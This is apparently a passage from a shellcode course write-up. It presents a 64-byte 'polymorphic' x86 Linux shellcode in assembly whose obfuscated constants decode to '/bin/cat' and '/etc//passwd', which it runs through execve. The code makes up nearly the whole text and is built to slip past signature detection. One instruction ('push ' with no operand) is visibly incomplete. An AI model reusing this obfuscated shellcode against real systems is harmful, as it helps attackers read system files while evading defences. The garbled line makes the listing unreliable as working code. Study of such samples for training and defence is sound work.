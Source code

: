 ##### Polymorphic:
`Shellcode length: 64`
```
    xor ecx, ecx
    mul ecx
    push esi
    mov cl, 16
    mov edi, 0x7461633f
    mov edx, 0x6e69623f

a:
    dec edi
    dec edx
    loop a

    push edi
    push edx

    mov ebx, esp
    push 

    mov edi, 0x64777363
    mov edx, 0x61702f1f
    mov esi, 0x6374651f

    mov cl, 16
b:
    inc edi
    inc edx
    inc esi
    loop b

    push edi
    push edx
    push esi

    mov ecx, esp

    mov al, 11

    push edx
    push ecx
    push ebx
    mov ecx, esp
    int 0x80
```
![shellcode3](/assets/images/SLAE_6/3.JPG)
